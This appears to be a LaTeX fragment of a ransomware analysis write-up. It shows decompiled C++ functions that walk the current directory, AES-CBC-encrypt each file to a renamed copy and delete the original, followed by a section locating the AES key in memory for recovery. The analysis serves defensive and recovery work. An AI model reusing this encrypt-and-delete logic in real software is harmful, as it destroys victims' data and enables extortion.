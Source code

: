 \documentclass[11pt]{article}
\begin{document}
\textbf{AES-CBC-128}



\section{Determine what files are targeted}


\textbf{EncryptAndRenameFiles\_140007590}
\begin{lstlisting}[language=c++, caption=EncryptAndRenameFiles\_140007590]
    do
    {
      /* Exclude Directory */
      if ((local_10e8.dwFileAttributes & 0x10) == 0)
      {
        CopyWPath_140007bc0(local_a68, 0x104, dir);
        input_addr = local_a68;
        ConcatWPath_140007b20(input_addr, 0x104, local_10e8.cFileName);
        GetModuleFileNameW((HMODULE)0x0, local_858, 0x104);
        thunk_FUN_14000c700((undefined8 *)local_e98,
                            (undefined8 *)local_10e8.cFileName, 6);
        /* Exclude "~en" */
        iVar2 = wcscmp(local_e98, L"~en");
        if (iVar2 != 0)
        {
          _Str2 = PathFindFileNameW(local_858);
          /* Exclude Malware Itelf */
          iVar2 = wcscmp(local_10e8.cFileName, _Str2);
          if (iVar2 != 0)
          {
            CopyWPath_140007bc0(local_648, 0x104, dir);
            output_addr = local_648;
            ConcatWPath_140007b20(output_addr, 0x104, (short *)&DAT_140070fd8);
            ConcatWPath_140007b20(output_addr, 0x104, local_10e8.cFileName);
            AES_Encrypt_140007080(input_addr, output_addr);
            DeleteFileW(input_addr);
          }
        }
      }
      BVar3 = FindNextFileW(local_1110, &local_10e8);
    } while (BVar3 != 0);
\end{lstlisting}

\textbf{RansomwareProcessor\_140008240}
\begin{lstlisting}[language=c++, caption=RansomwareProcessor\_140008240]
void RansomwareProcessor_140008240(void)
{
    /*...*/
    WCHAR dir[264];
    /*...*/
    printf((char *)L"Getting current directory. ");
    GetCurrentDirectoryW(0x104, dir);
    EncryptAndRenameFiles_140007590(dir);
    Sleep(10000);
    /*...*/
}
\end{lstlisting}




\section{Recover the AES key}
As noted above, the memory address of the AES key is the second parameter of the InitEncryption\_140008790 function:
\begin{lstlisting}[language=c++, caption=call of InitEncryption\_140008790]
                                            /*Address of AES key*/
InitEncryption_140008790((longlong)context_array,0x140086000,(undefined8 *)IV_140086010);
\end{lstlisting}
\end{document}

